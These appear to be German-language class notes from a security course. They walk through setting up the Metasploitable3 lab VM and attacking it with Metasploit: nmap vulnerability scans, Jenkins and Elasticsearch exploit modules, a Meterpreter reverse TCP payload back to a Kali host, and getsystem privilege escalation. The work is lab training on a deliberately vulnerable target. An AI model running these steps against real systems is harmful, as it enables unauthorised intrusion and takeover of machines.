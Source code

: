 # **Mitschrift**
#### **Datum: 06.05.2020**
### **Thema: BitTorrent**
---
## Split-Kommand
---
## Orf-Beitrag 
---
## **Main-Part** 

### Downloads
- [Vagrant](https://www.vagrantup.com/downloads.html)
- [Git Repo Metasploitable3](https://github.com/rapid7/metasploitable3.git)
### Anleitung 
- [Anleitung](https://liberty-shell.com/sec/2018/07/08/install-ms3/)


Richtige Anleitung
````
mkdir metasploitable3-workspace
cd metasploitable3-workspace
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/rapid7/metasploitable3/master/Vagrantfile" -OutFile "Vagrantfile"
vagrant up
````
Alles in der Powershell eingeben

## Weiter sind wir nicht am Vormittag gekommen
---
# Nachmittag

1. msfconsole
2. neuer tab
3. ip a
4. ls -l 
5. nmap -sV -sC --script vuln -oN dsofsdf.nmap 
6. db_status
7. workspace -a msp3win
8. db_nmap 192.168.0.130 
9. db_nmap 192.168.0.130  -p 8484, 8585

angreifer (kali): 192.168.178.34
windows server: 192.168.178.37



1. search jenskins // um nach exploits zu suchen
2. use [name] 
3. options
4. set targeturi /
5. set rport 8484
6. run 
--
7. grep exploit search jenkins 
8. use [name]
9. options 
10. set rport 8484
11. set targeturi /
12. info 
13. setg  rhost 
14. set payload windows/meterpreter/reverse_tcp
15. options
16. set lhost 192.168.0.132 (kali)
17. set lport 5555
18. set rport 8484
19. exploit
--- Zugriff Terminal 
19. ps 
20. ?
21. getuid
22. getsystem
23. background 
24. search elastisticsearch 
25. use [name]
26. options 
27. info
28. set LPORT 9999 
29. exploit 
30. getuid 